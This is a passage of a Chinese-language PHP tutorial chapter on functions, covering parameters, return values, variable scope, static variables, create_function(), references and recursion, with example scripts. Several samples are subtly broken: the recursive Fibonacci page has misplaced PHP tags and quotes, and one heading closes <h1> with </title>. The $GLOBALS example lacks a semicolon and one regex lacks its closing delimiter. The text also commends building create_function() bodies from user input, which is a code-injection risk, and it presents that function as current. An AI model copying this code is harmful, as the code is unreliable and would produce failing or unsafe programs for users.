您可以包含任意数量的形参变量。对于您指定的每个形参，调用函数时都需要传递一个对应的实参。传递给函数的实参随后会被放入这些形参变量中。下面是一个示例：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Saying hello with style</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Saying hello with style</h1>
<?php
function helloWithStyle( $font, $size ) {
  echo "<p style=\"font-family: $font; font-size: {$size}em;\">Hello, world!</p>";
}
helloWithStyle( "Helvetica", 2 );
helloWithStyle( "Times", 3 );
helloWithStyle( "Courier", 1.5 );
?>
</body>
</html>
```

此代码创建了一个名为 helloWithStyle() 的函数，该函数有两个形参变量：$font 和 $size。随后，这些变量在函数内用于通过 CSS 设置文本的字体和大小。

顺便说一下，代码中的 `${size}em` 这种花括号语法在您需要在变量名后紧跟一些字母和/或数字（本例中为 em）时非常有用。有关此语法的更多信息，请参见第 5 章。

接下来，代码会三次调用 helloWithStyle() 函数，每次传入不同的实参。每次函数调用中，$font 形参都会采用第一个实参的值，$size 形参都会采用第二个实参的值。

请注意，函数调用中实参的顺序与函数定义中形参的顺序一致。

将此脚本另存为 hello_with_style.php 并放在文档根目录文件夹中，然后尝试运行。生成的页面如图 7-2 所示。您可以看到，函数内同一行代码被用了三次，产生了三种截然不同的问候语。



图 7-2

### 可选参数和默认值

前面的 hello_with_style.php 脚本表明，函数可以非常强大。脚本中的单行函数 helloWithStyle() 能够使用用户浏览器支持的任何字体和文本大小来显示文本 "Hello, world!"。

然而，假设您大多数时候都想使用 1.5 em 的字体大小。如果在每次调用函数时都必须包含第二个实参，那将很麻烦：

```
helloWithStyle( "Helvetica", 1.5 );
helloWithStyle( "Times", 1.5 );
helloWithStyle( "Courier", 1.5 );
```

幸运的是，PHP 允许您创建带有可选参数的函数。定义可选参数的方法如下：

```
function myFunc( $parameterName=defaultValue ) {
    // (do stuff here)
}
```

换句话说，您插入形参名，然后是等号（=），再是默认值。这就是在调用函数时未传递对应实参时，形参将采用的值。因此，您可以将前面的 hello_with_style.php 脚本重写如下：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Saying hello with style</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Saying hello with style</h1>

<?php
function helloWithStyle( $font, $size=1.5 ) {
echo "<p style=\"font-family: $font; font-size: {$size}em;\">Hello, world!</p>";
}

helloWithStyle( "Helvetica", 2 );
helloWithStyle( "Times", 3 );
helloWithStyle( "Courier" );
?>

</body>
</html>
```

您可以看到，对 helloWithStyle() 的第三次调用没有向函数传递第二个实参。这会导致 PHP 将 $size 形参的值设为默认值 1.5。最终结果是，第三个 “Hello, world!” 将使用 Courier 字体以 1.5 em 的大小显示，与脚本的第一个版本相同。

### 从函数返回值

本章前面，您已了解函数不仅可以接受值，还可以返回值。例如，前面展示的内置 sqrt() 函数接受一个实参（一个数字），并返回一个值（该数字的平方根）。

> 请注意，接受实参和返回值都是可选的。函数可以只做其中一项、两项都做，或两项都不做。

要使函数返回一个值，您要用到——您肯定猜到了——PHP 的 return 语句：

```
function myFunc() {
// (do stuff here)
return value;
}
```

返回值可以是任意表达式，因此您可以使用字面值（例如 1 或 false）、变量名（例如 $result）或更复杂的表达式（例如 $x * 3 / 7）。

当 PHP 引擎遇到 return 语句时，它会立即退出函数，并将 value 返回给调用该函数的代码，后者可根据需要使用该值。

以下示例脚本展示了如何定义和使用返回值的函数：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Normal and bold text</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Normal and bold text</h1>
<?php
function makeBold( $text ) {
return "<b>$text</b>";
}
$normalText = "This is normal text.";
$boldText = makeBold( "This is bold text." );
echo "<p>$normalText</p>";
echo "<p>$boldText</p>";
?>
</body>
</html>
```

此脚本定义了一个名为 makeBold() 的函数，该函数接受一个字符串实参，并返回被 HTML <b>...</b>（粗体）标签括起来的字符串。接着，它创建一个名为 $normalText 的变量，其中包含未格式化的文本字符串。然后，它调用 makeBold() 函数，传入一些要格式化的文本，并将 makeBold() 的返回值存储在另一个变量 $boldText 中。最后，脚本将 $normalText 和 $boldText 都输出到浏览器。

您可以在图 7-3 中看到结果。



### 图 7-3


事实上，你可以使用不包含返回值的 return 语句：

```
function myFunc() {
// (do stuff here)
return;
}
```

这只是在该点退出函数，并将控制权返回给调用代码。如果你只想让函数停止当前的操作，而不一定需要返回值，这很有用。

## 了解变量作用域

你可以在函数中创建和使用变量，就像在函数外部一样。例如，以下函数创建了两个字符串变量 $hello 和 $world，然后连接它们的值并返回结果：

```
function helloWithVariables() {
$hello = "Hello, ";
$world = "world!";
return $hello . $world;
}
```

```
echo helloWithVariables(); // Displays "Hello, world!"
```

然而，需要记住的重要一点是，在函数中创建的任何变量在函数外部都不可访问。因此，在前面的示例中，在函数内部定义的变量 $hello 和 $world 对调用代码不可用。下一个示例演示了这一点：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
	<title>Understanding variable scope</title>
	<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
	<h1>Understanding variable scope</title>

	<?php

	function helloWithVariables() {
		$hello = "Hello, ";
		$world = "world!";
		return $hello . $world;
	}

	echo helloWithVariables() . "<br />";
echo "The value of \$hello is: '$hello'<br />";
echo "The value of \$world is: '$world'<br />";

	?>
</body>
</html>
```

你可以在图 7-4 中看到脚本的输出。



## 图 7-4

注意调用代码尝试显示 $hello 和 $world 的值，但没有任何内容显示。这是因为在函数内部创建的 $hello 和 $world 变量在函数外部不存在。据说 $hello 和 $world 的作用域限于创建它们的函数；它们被称为局部变量。

乍一看，你可能会认为这是一个缺点，因为这意味着你无法轻松从函数外部访问函数内部的变量。但实际上，这是一个很好的特性，因为这意味着在函数内部使用的变量名不会与函数外部使用的变量名发生冲突。

考虑以下示例：

```
function describeMyDog() {
    $color = "brown";
    echo "My dog is $color<br />";
}

// Define my cat's color
$color = "black";

// Display info about my dog and cat
describeMyDog();
echo "My cat is $color<br />";
```

请注意，代码在函数内外都创建了同名变量 — $color。不过，得益于变量作用域的概念，describeMyDog() 函数内部的 $color 变量与函数外部创建的 $color 变量是独立的，因此代码会产生预期的结果：

```
My dog is brown
My cat is black
```

考虑一下如果 $color 变量的作用域不受限制会发生什么。在这种情况下，$color 将像之前一样首先被设置为 "black"：

```php
// Define my cat
$color = "black";
```

然而，当随后调用 `describeMyDog()` 函数时，它会将 $color 变量的值覆盖为 "brown"（因为只有一个 $color 变量），从而产生以下输出：

```
My dog is brown
My cat is brown
```

因此，变量作用域避免了变量名冲突，有助于防止你意外覆盖同名变量。这是函数如此出色的另一个原因。

## 使用全局变量

虽然变量作用域的概念非常有用，但偶尔你确实希望创建一个可以在脚本中的任何位置访问的变量，无论是在函数内部还是外部。这种变量称为 `全局变量`。

PHP 支持全局变量，但如果你习惯了其他编程语言，你会发现 PHP 处理全局变量的方式略有不同。

在 PHP 中，从某种意义上说，在函数外部创建的所有变量都是全局的，因为脚本中不在函数内部的任何其他代码都可以访问它们。要在函数内部使用此类变量，请在函数的代码块中写下关键字 `global` 后跟变量名。这里有一个示例：

```php
$myGlobal = "Hello there!";

function hello() {
    global $myGlobal;
    echo "$myGlobal<br />";
}

hello(); // Displays "Hello there!"
```

你可以看到，`hello()` 函数通过使用 `global` 语句将 `$myGlobal` 声明为全局来访问该变量。然后函数可以使用该变量来显示问候语。

事实上，你不需要在函数外部创建变量即可将其用作全局变量。请看以下脚本：

```php
function setup() {
    global $myGlobal;
    $myGlobal = "Hello there!";
}

function hello() {
    global $myGlobal;
    echo "$myGlobal<br />";
}

setup();
hello(); // Displays "Hello there!"
```

在这个脚本中，首先调用 `setup()` 函数。它将 `$myGlobal` 变量声明为全局，并赋予它一个值。然后调用 `hello()` 函数。它也将 `$myGlobal` 声明为全局，这意味着它现在可以访问其值（之前由 `setup()` 设置）并显示它。

顺便说一句，你也可以在同一行一次声明多个全局变量 — 只需用逗号分隔变量即可：

```
function myFunction() {
    global $oneGlobal, $anotherGlobal;
}
```

最后，你也可以使用 `$GLOBALS` 数组来访问全局变量。这个数组是一种称为 *超全局* 的特殊变量类型，这意味着你可以在任何位置访问它，而无需使用 `global` 语句。它包含所有全局变量的列表，变量名存储在键中，变量的值存储在值中。以下是使用 `$GLOBALS` 的示例：

```
$myGlobal = "Hello there!";

function hello() {
    echo $GLOBALS["myGlobal"] . "<br/>"
}

hello(); // Displays "Hello there!"
```

`hello()` 函数通过 `$GLOBALS` 数组访问 `$myGlobal` 变量的内容。请注意，函数不需要将 `$myGlobal` 变量声明为全局即可访问其值。

PHP 还为你提供了其他超全局变量。你将在第 9 章中深入学习超全局变量。

使用全局变量时要小心。如果你在应用程序的多个不同位置修改全局变量的值，那么当出问题时，调试代码会变得困难。一般来说，除非绝对必要，否则应避免使用全局变量。

## 使用静态变量保留值

正如你所见，函数局部变量在函数外部不存在。实际上，在函数内部声明的所有变量在函数退出时都会被删除，并在函数下次调用时重新创建。这通常是你想要发生的事情，因为它让你可以编写自包含良好的函数，这些函数相互独立地工作。

不过，有时创建寿命稍长的局部变量很有用。*静态变量* 就让你能够做到这一点。这种类型的变量仍然是函数局部的，因为它们只能在函数的代码中访问。然而，与函数退出时会消失的局部变量不同，静态变量会记住一次函数调用到下一次函数调用之间的值。

要将局部变量声明为静态，你只需在变量名前写下关键字 `static`，并为变量赋予初始值：

```
static $var = 0;
```

第一次调用函数时，变量会被设置为其初始值（本示例中为零）。但是，如果变量的值在函数内部被更改，新值会在下次调用函数时被记住。该值仅在脚本运行期间被记住，因此下次运行脚本时，变量会被重新初始化。

那么，你何时会使用静态变量呢？以下是局部变量不太有用的情况：

```
function nextNumber() {
$counter = 0;
return ++$counter;
}
```

```
echo "I've counted to: " . nextNumber() . "<br />";
echo "I've counted to: " . nextNumber() . "<br />";
echo "I've counted to: " . nextNumber() . "<br />";
```

此代码输出以下内容：

```
I've counted to: 1
I've counted to: 1
I've counted to: 1
```

每次调用 nextNumber() 函数时，其 $counter 局部变量都会被重新创建并初始化为零。然后它会递增到 1，并将其值返回给调用代码。因此，无论调用多少次，该函数始终返回 1。

然而，通过做一小点更改将 $counter 转换为静态变量，脚本会产生预期的输出：

```
function nextNumber() {
static $counter = 0;
return ++$counter;
}
```

```
echo "I've counted to: " . nextNumber() . "<br />";
echo "I've counted to: " . nextNumber() . "<br />";
echo "I've counted to: " . nextNumber() . "<br />";
```

现在代码显示：

```
I've counted to: 1
I've counted to: 2
I've counted to: 3
```

你可能不会经常使用静态变量，并且通常可以使用全局变量（虽然风险更大）来实现相同的效果。但是，当你确实需要创建静态变量时，你可能会庆幸它们的存在。它们通常与递归函数（你将在本章后面学习）一起使用，以在整个递归过程中记住值。

## 创建匿名函数

PHP 允许你创建匿名函数 — 即没有名称的函数。你可能希望创建匿名函数的原因有两个：


要动态创建函数 — 你可以在创建匿名函数时自定义其中的代码。虽然你很少需要这样做，但在某些特定情况下，这可以使你的代码非常灵活。

要创建短期、一次性的函数 — 通常，当你使用需要创建回调函数或事件处理程序函数的内置函数时会这样做。示例包括 xml_set_element_handler()（你将在第 19 章中遇到）以及 array_walk() 等数组函数，它允许你将函数应用于数组中的每个值，还有 usort()，它根据你自己创建的比较函数对数组元素进行排序。

要创建匿名函数，你使用 create_function()。它需要两个参数：用逗号分隔的参数列表（如果有的话），以及函数体的代码（不包括花括号，但每行代码末尾包含分号）。它返回一个唯一的、随机生成的字符串值，你可以用它来稍后引用该函数：

```
$myFunction = create_function( '$param1, $param2', 'function code here,' );
```

下面是一个简单示例，它根据变量的值动态创建匿名函数：

```
$mode = "+";
$processNumbers = create_function( '$a, $b', "return \$a $mode \$b;" );
echo $processNumbers( 2, 3 ); // Displays "5"
```

这段代码使用 $mode 变量的值作为处理其两个参数 $a 和 $b 的运算符。例如，如果将 $mode 改为 "*"，代码将显示 "6"（2 乘以 3）。代码本身看起来没有什么意义，但如果你能想象一个更复杂的函数，其内容由外部因素（如用户输入）决定，你就能看到这是 PHP 的一项潜在强大功能。

更常见的是，你会使用匿名函数来创建某些内置函数所需的回调函数，如下例所示。

## 试一试 按长度排序单词

此示例脚本获取一段文本，并按每个单词的字母数量对文本中的所有单词进行排序，最短单词优先。为此，它使用匿名函数，以及 PHP 内置的 usort()、preg_replace()、array_unique() 和 preg_split() 函数。

将脚本保存为 sort_words_by_length.php 到你的文档根目录文件夹中，然后在浏览器中运行它。你应该会看到类似于图 7-5 的页面。

```
<!DOCTYPE html PUBLIC "--//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
	<title>Sorting words in a block of text by length</title>
	<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
	<h1>Sorting words in a block of text by length</h1>

<?php

$myText = <<<END_TEXT
But think not that this famous town has
only harpooneers, cannibals, and
bumpkins to show her visitors. Not at
all. Still New Bedford is a queer place.
Had it not been for us whalemen, that
tract of land would this day perhaps
have been in as howling condition as the
coast of Labrador.
END_TEXT;

echo "<h2>The text:</h2>";
echo "<div style=\"width: 30em;\">$myText</div>";

$myText = preg_replace( "/[.,]/", "", $myText );
$words = array_unique( preg_split( "/[ \\n\\r\\t]+/", $myText ) );
usort( $words, create_function( '$a, $b', 'return strlen($a) - strlen($b);' ) );

echo "<h2>The sorted words:</h2>";
echo "<div style=\"width: 30em;\">";

foreach ( $words as $word ) {
    echo "$word ";
}

echo "</div>";

?>
</body>
</html>
```



## 图 7-5

## 工作原理

显示 XHTML 页面页眉后，脚本设置一个 $myText 变量，用于保存要排序其单词的文本。（随意将示例文本替换为你自己的文本。）然后，它在固定宽度的 HTML div 元素中显示该文本。

接下来，脚本开始处理文本。首先，它使用 PHP 的 preg_replace() 函数从文本中删除所有逗号和句点：

```
$myText = preg_replace( "/[\\.,]/", "", $myText );
```

（此行代码使用简单的正则表达式来完成其工作；你将在第 18 章了解更多关于 preg_replace() 和正则表达式的内容。）

下一行代码调用 PHP 的 preg_split() 函数，将字符串分割为单词数组，使用 \n、\r、\t 和空格等任何空白字符来确定单词边界。然后，它通过 PHP 实用的 array_unique() 函数处理该数组，从数组中删除任何重复的单词：

```
$words = array_unique( preg_split( "/[ \\n\\r\\t]+" , $myText ) );
```

preg_split() 通过使用正则表达式来定位分割点，从而分割字符串。有关 preg_split() 的更多信息，请参见第 18 章。

接下来是排序逻辑，这就是匿名函数发挥作用的地方。脚本使用 PHP 的 usort() 函数对单词数组进行排序。usort() 需要一个要排序的数组，随后是一个回调比较函数。所有比较函数都需要接受两个值——$a 和 $b——并返回三个值之一：

- 如果 $a 被认为“小于” $b，则返回负数
- 如果 $a 被认为“等于” $b，则返回零
- 如果 $a 被认为“大于” $b，则返回正数

在这种情况下，比较函数需要确定字符串 $a 的长度是小于、等于还是大于字符串 $b 的长度。它可以通过用 $b 的长度减去 $a 的长度并返回结果来简单地完成此操作。（请记住第 5 章中，PHP 的 strlen() 函数返回字符串的长度。）

那么，对数组进行排序的完整代码行如下：

```
usort( $words, create_function( '$a, $b', 'return strlen($a) - strlen($b);' ) );
```

请注意，此行代码使用 create_function() 函数创建一个匿名比较函数，随后由 usort() 用于对数组进行排序。

最后，脚本在另一个固定宽度的 div 元素中显示排序后的单词列表。

顺便说一句，在这种情况下，你不必使用匿名函数。前面的代码行可以写成：

```
function sortByLength( $a, $b ) {
  return strlen( $a ) - strlen( $b );
}

usort( $words, "sortByLength" );
```

不过，如你所见，匿名函数版本更加简洁。

## 使用引用

你已经学到，你可以以参数形式将信息传递给函数，也可以使用 return 语句从函数向其调用代码返回信息。当你做其中任何一件事时，PHP 实际上是将信息的副本传递到函数中和从函数中返回；这被称为按值传递和返回。

大多数时候这不是问题，但有时你希望函数处理原始信息，而不是副本。考虑以下示例：

```
function resetCounter( $c ) {
  $c = 0;
}

$counter = 0;
$counter++;
$counter++;
$counter++;
echo "$counter<br />"; // Displays "3"
resetCounter( $counter );
echo "$counter<br />"; // Displays "3"
```

这段代码定义了一个名为 resetCounter() 的函数，用于将其参数重置为零。然后，将 $counter 变量初始化为零并递增三次。正如你所期望的，此时 $counter 的值为 3。随后调用 resetCounter()，传入 $counter 变量（即要重置的变量）。然而，正如第二条 echo 语句所示，$counter 并未被函数重置。这是因为 resetCounter() 内部的参数 $c 仅持有 $counter 中存储信息的副本。因此，当函数将 $c 设置为零时，它根本不影响 $counter 的值。

幸运的是，PHP 提供了一种称为引用的机制，你可以使用它来绕过此类问题。引用有点类似于硬盘上文件的快捷方式或别名。当你创建对 PHP 变量的引用时，你现在有两种读取或更改变量内容的方法——可以使用变量名，也可以使用引用。下面是一个创建对变量引用的简单示例：

```
$myVar = 123;
$myRef = & $myVar;
$myRef++;
echo $myRef . "<br />"; // Displays "124"
echo $myVar . "<br />"; // Displays "124"
```


首先，一个新变量 $myVar 被初始化为值 123。接下来，创建对 $myVar 的引用，并将该引用存储在变量 $myRef 中。注意等号后面的与符号（&）；使用此符号会创建引用。

下一行代码将 1 加到 $myRef 的值上。因为 $myRef 实际上指向与 $myVar 相同的数据，所以 $myRef 和 $myVar 现在都包含值 124，如两个 echo 语句所示。

既然你知道了引用是什么以及如何创建它们，现在是时候了解如何将引用传入和传出你的函数了。

## 将引用传递给你自己的函数

通过将对变量的引用作为参数传递给函数，而不是传递变量本身，你是 *按引用* 传递参数，而不是按值传递。这意味着函数现在可以修改原始值，而不是对副本进行操作。

要使函数将参数作为引用而非值接受，请在函数定义中将与符号（&）放在参数名称之前：

```
function myFunc( &$aReference ) {
    // ( do stuff with $aReference)
}
```

现在，每当将变量传递给 myFunc() 时，PHP 实际上会传递该变量的引用，因此 myFunc() 可以直接使用变量的原始内容，而不是副本。

了解这一点后，你可以通过使用引用来修复前面的计数器示例：

```
function resetCounter( &$c ) {
    $c = 0;
}
```

```
$counter = 0;
$counter++;
$counter++;
$counter++;
echo "$counter<br/>" ; // Displays "3"
resetCounter( $counter );
echo "$counter<br/>" ; // Displays "0"
```

脚本中唯一的更改在第一行：

```
function resetCounter( &$c ) {
```

在 $c 之前添加与符号会导致 $c 参数成为传递参数（在此示例中为 $counter）的引用。现在，当函数将 $c 设置为零时，它实际上是将 $counter 的值设置为零，如第二个 echo 语句所示。

许多内置的 PHP 函数以这种方式接受引用。例如，PHP 的 sort() 函数（你在前一章中接触过）会更改你传递给它的数组，并按顺序对其元素进行排序。数组是按引用而非按值传入的，因此函数可以更改数组本身，而不是它的副本。

### 从你自己的函数返回引用

除了按引用将变量传递给函数外，你还可以让函数返回引用，而不是值。要做到这一点，请在函数定义中将与符号放在函数名称之前。然后，当你使用 `return` 语句返回一个变量时，你会将对该变量的引用传回给调用代码，而不是该变量的值：

```php
function &myFunc() {
    // (do stuff)
    return $var; // Returns a reference to $var
}
```

下面是一个展示按引用返回的示例：

```php
$myNumber = 5;

function &getMyNumber() {
    global $myNumber;
    return $myNumber;
}

$numberRef = &getMyNumber();
$numberRef++;
echo "\$myNumber = $myNumber<br/>"; // Displays "6"
echo "\$numberRef = $numberRef<br/>"; // Displays "6"
```

其工作原理如下。首先，创建一个名为 `$myNumber` 的全局变量并赋值为 5。接下来，定义一个名为 `getMyNumber()` 的函数。该函数只是使用 `global` 关键字访问全局变量 `$myNumber`，然后返回 `$myNumber`。因为 `getMyNumber()` 名称前带有与符号，所以它返回对 `$myNumber` 的引用，而不是 `$myNumber` 持有的值。

接下来，脚本调用 `getMyNumber()`。`getMyNumber()` 的返回值（即对 `$myNumber` 的引用）随后被赋给一个新变量 `$numberRef`。注意等号后面的与符号；这确保 `$numberRef` 继承 `getMyNumber()` 返回的引用，而不是继承引用所指向的值。

此时，`$numberRef` 和 `$myNumber` 都指向相同的内容。为了证明这一点，代码递增 `$numberRef`，然后输出 `$myNumber` 和 `$numberRef` 的值。注意它们都持有相同的值 — 6 — 因为它们都指向同一块数据。

按引用返回在 C++ 等语言中非常常见，因为它是返回数组和对象等复杂数据结构的最简单方法。但是，由于 PHP 的 `return` 语句允许你返回几乎任何东西，并且会自动按引用返回对象（如下一章所示），你在 PHP 中可能不会太多使用按引用返回。

### 编写递归函数

在第 4 章中，你学习了如何使用循环一次性处理大量数据。循环通常称为 _迭代_。

递归是另一种你可以使用的技术，当你需要处理一组值时。一般来说，使用迭代通常比使用递归更容易；但是，在某些情况下，递归更有意义。几乎任何循环都可以转换为使用递归，反之亦然。

那么，什么是递归，它与函数有何关系？简单来说，当函数调用自身时，就发生了递归。正如你所想，如果不停止，这样的过程会无限重复，因此递归需要有某种终止条件——很像循环。这种终止条件称为 *基本情况*，而函数中调用自身的部分称为 *递归情况*。

以下是递归函数运作方式的快速概述：

- 递归函数由调用代码调用
- 如果满足基本情况（或终止条件），函数执行所需的任何处理，然后退出
- 否则，函数执行所需的任何处理，然后调用自身以继续递归

当然，你必须确保最终会达到基本情况，否则函数会无限调用自身（导致无限循环）。

## 试一试：使用递归创建斐波那契数列

第 4 章展示了如何使用循环创建斐波那契数列。以下脚本与第 4 章中所示的脚本类似，只是它使用递归函数生成每个值，而不是迭代计算值。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Fibonacci sequence using recursion</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
th {text-align: left; background-color: #999; }
th, td { padding: 0.4em; }
tr.alt td { background: #ddd; }
</style>
</head>
<body>
<h2>Fibonacci sequence using recursion</h2>
<table cellspacing="0" border="0" style="width: 20em; border:
1px solid #666;">
<tr>
<th>Sequence #</th>
<th>Value</th>
</tr>
<?php
$iterations = 10;

function fibonacci( $n ) {
    if ( ( $n == 0 ) || ( $n == 1 ) ) return $n;
    return fibonacci( $n-2 ) + fibonacci( $n-1 );
}

for ( $i=0; $i <= $iterations; $i++ )
{
?>
    <tr><?php if ( $i % 2 != 0 ) echo ' class="alt" ?>'
    <td>F<sub><?php echo $i?></sub></td>
    <td><?php echo fibonacci( $i)?></td>
    </tr>
<?php
}
</table>
</body>
</html>
```

将脚本保存为文档根目录下的 fibonacci_recursion.php，并通过 Web 浏览器运行。你应该会看到类似图 7-6 的页面。注意，该序列与第 4 章脚本生成的序列相同。



图 7-6

## 工作原理

大部分代码与第 4 章中的脚本相似。脚本显示一个 XHTML 标头，然后创建一个表格来显示结果。它还使用 `for` 循环显示斐波那契数 F<sub>0</sub> 到 F<sub>10</sub>，与第 4 章的脚本非常相似。

区别在于斐波那契数的计算方式。第 4 章中的迭代版本使用两个变量 `$num1` 和 `$num2` 来保存当前的两个斐波那契数，并在遍历循环时计算新数字。另一方面，此脚本使用递归函数 `fibonacci()` 来计算任何给定序列号的斐波那契数。然后在 `for` 循环中调用该函数以显示斐波那契数 F<sub>0</sub> 到 F<sub>10</sub>。

那么 `fibonacci()` 函数如何工作？你可以看到它接受当前序列号 `$n` 作为参数。函数本身的第一行代表基本情况：

```
if ( ( $n == 0 ) || ( $n == 1 ) ) return $n;
```

此代码检查序列号是否为 0 或 1；如果是，则立即退出函数并返回序列号（因为 F<sub>0</sub> 是 0 而 F<sub>1</sub> 是 1）。因此，一旦满足此条件，函数即完成，控制权交还给调用代码。

如果尚未达到基本情况，则运行第二行代码：

```
return fibonacci( $n-2 ) + fibonacci( $n-1 );
```

此代码递归调用 `fibonacci()` 函数两次——一次计算序列中低两个位置的斐波那契数，另一次计算低一个位置的斐波那契数。然后将这两个斐波那契数相加，以生成当前序列号的斐波那契数，并将其返回给调用代码（可能是 `for` 循环中的代码，也可能是 `fibonacci()` 函数的另一个实例）。

因此，当用序列号（例如 10）运行此函数时，它会调用自身以获取位置 8 和 9 上的数字。同样，当用序列号 8 调用时，该函数通过调用自身来获取位置 6 和 7 上的数字，从而计算此位置的斐波那契数，以此类推。此过程持续到函数被用序列号 0 或 1 调用为止；此时，它不再调用自身，而只是返回值 0 或 1。

你可以看到，函数以类似树的模式调用自身，初始函数调用作为树的根，各种递归调用作为树的分支。实际上，递归函数非常适合处理以树状组织的数据，正如你在第 11 章处理文件和文件夹时所见的那样。

## 总结

本章向你介绍了 PHP 中函数的概念。函数就像一个黑盒，可以接受一个或多个输入并返回结果。你已了解，函数通过将大型项目分解为更小的部分，使你更容易编写健壮、结构化的代码。此外，你了解到，通过将代码封装在函数中，无论在脚本中使用多少次，你都只需编写一次该代码。


## 第二部分：学习语言

你详细了解了如何调用函数——无论是内置函数还是用户定义函数——并探索了 PHP 引擎在调用函数时的行为。你还学习了变量函数——这是 PHP 的一项功能，允许你在脚本运行时选择调用哪个函数。

本章的主要部分集中在编写自己的函数上。你学习了：

- 如何定义函数
- 如何指定函数参数，包括带有默认值的可选参数
- `return` 语句，它允许你从函数返回值，或提前退出函数
- 局部变量、全局变量和静态变量的区别，以及如何处理这三种类型
- 匿名函数的概念，以及如何创建它们

接下来，你学习了引用，并了解了引用如何允许函数访问和修改其外部的变量。

最后，你了解了递归的概念，即函数反复调用自身，直到达到结束条件。举例来说，你使用递归函数生成斐波那契数列中的数字。

既然你已经知道如何创建和使用函数，你会发现编写更大的 PHP 脚本要容易得多，而且这些脚本也更易于阅读和维护。尝试以下两个练习来练习你的函数技能。你可以在附录 A 中找到这些练习的解答。

